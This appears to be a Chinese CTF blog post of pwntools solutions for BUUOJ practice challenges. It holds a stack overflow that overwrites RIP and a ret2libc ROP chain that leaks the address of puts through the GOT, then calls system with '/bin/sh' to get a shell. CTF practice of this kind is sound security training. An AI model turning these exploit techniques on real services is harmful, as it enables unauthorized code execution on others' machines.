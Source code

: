 ```yaml
---
layout: post
title:  "buuoj-从Pwn到去世"
date:   2019-9-3
desc: ""
keywords: ""
categories: [Ctf]
tags: [CTF,buuoj,Pwn]
icon: icon-html
---
```


# buuoj-从Pwn到去世

![11](https://raw.githubusercontent.com/AiDaiP/images/master/pwn/11.png)

* ### 连上就有flag的pwn

  nc [pwn.buuoj.cn](http://pwn.buuoj.cn/) 6000 

* ### RIP覆盖一下

  ```python
  from pwn import *
  r = remote('pwn.buuoj.cn',6001)
  payload = 'a'*23 + p64(0x0401186)
  r.sendline(payload)
  r.interactive()
  ```

* ### ciscn_2019_c_1

  ```python
  from pwn import *
  r = remote('pwn.buuoj.cn',20115)
  elf = ELF('ciscn_2019_c_1')
  libc = ELF('x64_libc.so.6')
  
  
  puts_plt = elf.plt['puts']
  puts_got = elf.got['puts']
  puts_libc = libc.symbols['puts']
  main = elf.symbols['main']
  system_libc = libc.symbols['system']
  pop_rdi = 0x400c83
  binsh_libc = 0x18cd57
  
  
  payload ='a' * 0x58+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
  r.recvuntil('Input your choice!\n')
  r.sendline('1')
  r.recvuntil('Input your Plaintext to be encrypted\n')
  r.sendline(payload)
  
  r.recvuntil('@\n')
  puts_addr = u64(r.recv(6).ljust(8,'\x00'))
  libc_base = puts_addr - libc.sym['puts']
  
  system = libc_base + system_libc
  binsh = libc_base + binsh_libc
  
  payload ='A'*0x58+p64(pop_rdi)+p64(binsh)+p64(system)
  r.recvuntil('Input your choice!\n')
  r.sendline('1')
  ```